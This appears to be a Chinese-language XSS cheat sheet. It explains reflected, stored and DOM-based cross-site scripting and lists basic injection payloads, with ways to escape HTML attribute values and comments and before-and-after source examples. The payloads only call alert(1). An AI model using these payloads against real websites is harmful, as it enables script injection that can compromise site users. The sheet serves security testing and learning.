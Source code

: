 ## XSS 速查表

^b6b605

### 介绍

> 跨站脚本（XSS）攻击是一种注入攻击类型，恶意脚本被注入到网站中。有三种类型的XSS攻击：
 1. 反射型XSS: 攻击中，恶意脚本通过Web浏览器从另一个网站运行
 2. 存储型XSS: 存储攻击是那些恶意脚本永久存储在目标服务器上的攻击
 3. 基于DOM的XSS: 一种XSS类型，其中载荷在DOM中找到，而不是在HTML代码中找到。

### 发现位置

> 这种漏洞可能出现在应用程序的所有功能中。如果要查找DOM型XSS，可以通过阅读JavaScript源代码来找到它。

### 如何利用

1. 基本的Payload

```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

2. 在HTML标签值中添加 ' 或 " 以转义Payload

```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

* 示例源代码

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* 输入Payload后

```html
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```

3. 如果输入落在HTML注释中，请添加 --> 以转义Payload。

```html
--><script>alert(1)</script>
```

* 示例源代码

```html
<!-- REFLECTED_HERE --> 
```

* 输入Payload后

```html
<!-- --><script>alert(1)</script> -->
```
